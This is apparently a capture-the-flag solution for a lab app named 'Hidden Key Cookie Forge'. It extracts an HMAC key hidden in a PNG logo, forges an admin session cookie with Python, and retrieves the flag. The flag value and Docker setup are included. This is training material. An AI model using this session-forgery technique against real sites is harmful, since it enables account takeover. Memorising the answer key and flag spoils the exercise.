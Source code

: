 SOLUTION - Hidden Key Cookie Forge

1) Download the image:
   curl -sS http://localhost:5000/static/logo.png -o logo.png

2) Extract the PNG text chunk:
   strings logo.png | grep -i ctf_key
   # You will see: ctf_key\supersecret_hmac_key_12345

3) Craft signature for admin:
# main.py
import hmac, hashlib

key = "supersecret_hmac_key_12345"
username = "admin"

sig = hmac.new(key.encode(), username.encode(), hashlib.sha256).hexdigest()
print(sig)


Signature for admin: 86f96cbc74c32acdadde613a7b5a7c2c6f639d0283aa6c2341e5cfcbad4f82b3

4) Send request with cookie:
   curl -sS -H "Cookie: session=admin|86f96cbc74c32acdadde613a7b5a7c2c6f639d0283aa6c2341e5cfcbad4f82b3" http://localhost:5000/flag

   OR 

   Dev tools in browser (F12 -> Console):
   document.cookie = "session=admin|86f96cbc74c32acdadde613a7b5a7c2c6f639d0283aa6c2341e5cfcbad4f82b3; path=/";
   location.href = "/flag";


Expected response:
ISEP{You_f0und_th3_s3cr3t!}

Docker run commands:
docker build -t hiddenkeycookie .
docker run --rm --name hkctf -p 5000:5000 -e CTF_FLAG="ISEP{You_f0und_th3_s3cr3t!}" hiddenkeycookie
